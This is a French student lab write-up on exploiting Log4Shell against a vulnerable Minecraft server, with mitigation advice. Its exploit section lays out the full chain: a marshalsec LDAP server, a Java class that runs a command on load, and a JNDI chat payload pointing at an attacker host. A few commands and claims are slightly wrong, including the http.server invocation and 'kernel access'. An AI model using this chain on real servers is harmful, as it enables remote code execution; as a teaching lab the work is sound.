





# Veille: Minecraft Log4SHELL (faille log4j).



Dans ce cours il nous a été demandé de mettre en place un lab afin d'exploiter une CVE de niveau 7 minimum puis de trouver un moyen de mitigation de la faille.  

Notre groupe a donc choisi la CVE Log4shell de criticité de niveau 10. Ce niveau de criticité a été établit par le Common Vulnerability Scoring System (CVSS). (1)  

## Historique de la vulnérabilité  

Log4shell est une vulnérabilité basée sur la librairie java intitulée "`Log4j`" que l'on retrouve dans de nombreuses application permettant la gestion des logs.  
Cette vulnérabilité a tout d'abord été signalée de manière privée à Apache le 24 novembre 2021.  
Le 9 décembre 2021, Log4Shell a été publiquement divulgué et a reçu un correctif initial avec la version 2.15.0 d’Apache Log4j.  


## Fonctionnement




Log4Shell est une vulnérabilité d’injection Java Naming and Directory Interface (JNDI), et qui peut permettre l'exécution de code à distance (RCE).  
Le principe est simple. Sur un système infecté, un attaquant peut exécuter du code malveillant et récupérer des informations ou faire en sorte que le code exécuté fasse tout et n'importe quoi. De fait, cette RCE a la particularité de pouvoir effectuer des SYSCALLS (appels systèmes via le kernel) et donc avoir l'accès à l'ensemble de la machine victime.  

La faille a un fonctionnement plutôt pernicieux, qui est clairement une injection. L'attaquant n'a qu'à écrire son payload à un endroit qu'il saura loggé (par exemple le chat minecraft : tout ce qui est dit est loggé, donc enregistré et "analysé" par log4j.)  

Une fois son payload envoyé, la faille va s'executer si elle n'a pas été patchée, et récupérera donc du code malveillant pour execution depuis un serveur LDAP. Mais détaillons ce fonctionnement en dessous.  

## Exploit

Nous allons donc détailler les étapes afin de reproduire une preuve de concept dans un environnement Minecraft.  

Tout d'abord nous avons besoin de:  

- Java Development Kit (JDK) 8  
- Serveur Minecraft vulnérable (ici, 1.8.x) : récupéré [sur ce dépôt](https://github.com/Justin-Garey/Minecraft-Log4j-Exploit)
- Un serveur HTTP pour récupérer la class malveillante

### I- On commence par configurer le serveur Minecraft :

La première étape est bien évidemment de setup le serveur minecraft. 
Rien de plus simple, quelques commandes suffisent.

```bash
sudo apt install openjdk-8-jdk
git clone https://github.com/Justin-Garey/Minecraft-Log4j-Exploit
cd Minecraft-Log4j-Exploit/server
java -jar server.jar
```



### II- Préparer le serveur LDAP malveillant :

Heureusement, le travail nous a été plus ou moins mâché pour le LDAP : on utilisera donc le travail de mbechler.  
On clone le dépôt git suivant : [marshalsec](https://github.com/mbechler/marshalsec)  
Puis On compile le projet :  

```bash
git clone https://github.com/mbechler/marshalsec
cd marshalsec  
mvn clean package -DskipTests
```

### III- Payload malveillant
     
Avoir un serveur vulnérable c'est bien, pouvoir y envoyer un payload c'est mieux.  
On va donc démarrer un serveur HTTP tout simple sur lequel notre class malveillante sera hébergée.  
Pour ça, python suffit amplement (avec http.server) :  

```py
python3 http.server
```

Dans le dossier contenant notre classe .java.

D'ailleurs cette classe la voilà : concrètement, lors de son activation, elle va simplement ouvrir un terminal sur notre kali.

`
```java
public class Log4jRCE_kali {
  static {
    try {
      java.lang.Runtime.getRuntime().exec("qterminal").waitFor();
    }
    catch (Exception e) {
      e.printStackTrace();
    }
  }
}
```

### IV - Lancement des serveurs

Une fois tout configuré, il ne nous reste plus qu'à lancer les serveurs puis profiter.

Héberger notre charge utile Java sur un serveur web accessible publiquement : c'est fait  

Il faut maintenant lancer le serveur LDAP en spécifiant l'URL du payload :  
     
```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://le-serveur.com/#Exploit
```  



### V - Exploiter la vulnérabilité :

Dans le client Minecraft, On se connecte au serveur vulnérable.  
Dans le chat du jeu, on envoie la charge utile suivante :  
     
```java
${jndi:ldap://votre-serveur.com:1389/Exploit}  
```

Si l'exploitation est réussie, le code malveillant hébergé sera exécuté sur le serveur Minecraft.  
En l'occurence, un terminal a bien été ouvert : 




## Mitigation   

Pour protéger un serveur contre cette vulnérabilité, il suffit de mettre à jour la bibliothèque Log4j vers la version 2.16.0 ou supérieure. Si une mise à jour immédiate n'est pas possible, On peut aussi ajouter l'option suivante aux paramètres JVM lors du démarrage du serveur :  

`Dlog4j2.formatMsgNoLookups=true`  

## Bilan  

Nous avons pu voir au cours de la réalisation de ce TP que la CVE-2021-44228 appelé log4shell est très puissante et de ce fait très dangereuse. A l'appuie de ces propos nous avons le score de la CVE qui est égal à 10 soit le score le plus élevé sur les normes CVSS.  

De plus, au delà d'être une RCE, il s'agit d'une RCE possédant les droits les plus haut car gagnant l'accès au kernel.  
Une vulnérabilité de ce genre est pour le moins... dérangeante.  

La facilité déconcertante avec laquelle nous avons mis un lab en place, mené des tests et rédigé un rapport prouve bien qu'il ne s'agit même pas d'une faille nécessitant des compétences particulièrement élevée pour l'exploiter. Ce qui, pour une faille de criticité 10 est très ennuyeux, car "n'importe qui" peut décider de mener une attaque, et potentiellement porter des préjudices non négligeables.


## Sources utilisées 

https://www.trendmicro.com/fr_fr/what-is/apache-log4j-vulnerability.html
https://github.com/Justin-Garey/Minecraft-Log4j-Exploit
https://medium.com/@hackingvarangian/log4shell-vulnerability-part-1-minecraft-poc-ef770e5800de
https://github.com/mbechler/marshalsec

## Crédits images : 

- log4shell: secura (https://secura.com)
- fonctionnement: stormshield (https://stormshield.com)

## Notes : 

(1) : https://nvd.nist.gov/vuln/detail/cve-2021-44228

